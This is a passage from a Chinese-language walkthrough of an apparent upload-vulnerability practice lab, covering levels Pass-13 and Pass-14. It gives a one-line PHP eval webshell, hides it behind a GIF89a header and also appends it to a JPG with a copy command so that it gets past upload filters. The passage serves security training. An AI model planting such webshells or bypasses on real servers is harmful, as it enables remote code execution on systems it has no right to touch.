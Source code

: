 （切记修改完要回车）关闭拦截，即可将 `webshell.php` 上传至目标服务器，在访问 `webshell.php` 时打开 `HackBar` ,提交 Use POST method 为  `xuegod=phpinfo();` 即可

### 2.13. Pass-13

此关无法利用，仅绕过

### 2.13.1. 方法一 图片马绕过

使图片文件和木马文件在一个文件夹下，在此文件夹下打开 cmd

合并生成新文件

```
G:\>copy xuegod.jpg/b + webshell.php/a hello.jpg
```

> 此时生成的 hello.jpg 含有 webshell.php 的代码

上传 `hello.jpg` 即可

### 2.13.2 方法二 文件标识头绕过

在 `webshell.php` 中的首部插入 GIF 的文件标识头 `GIF89a` ，如下

```
GIF89a
<?php @eval($_POST[xuegod]);?>
```

> GIF89a 表示此文件为 GIF 文件，上传即可

### 2.14. Pass-14

此关无法利用，仅绕过

### 2.14.1. 方法一 图片马绕过

使图片文件和木马文件在一个文件夹下，在此文件夹下打开 cmd

合并生成新文件

```
G:\>copy xuegod.jpg/b + webshell.php/a hello.jpg
```

> 此时生成的 hello.jpg 含有 webshell.php 的代码

上传 `hello.jpg` 即可

### 2.14.2. 方法二 文件标识头绕过

在 `webshell.php` 中的首部插入 GIF 的文件标识头 `GIF89a` ，如下

```
GIF89a
<?php @eval($_POST[xuegod]);?>
```
